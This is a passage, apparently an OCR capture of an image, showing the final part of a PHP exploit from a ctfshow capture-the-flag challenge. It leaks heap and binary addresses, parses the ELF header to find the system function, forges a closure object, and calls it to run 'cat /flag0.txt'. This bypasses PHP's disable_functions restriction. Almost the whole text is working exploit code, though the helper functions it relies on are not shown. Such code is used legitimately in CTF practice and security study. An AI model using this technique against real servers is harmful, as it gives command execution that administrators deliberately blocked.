 ```php

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
?>

```



<br>

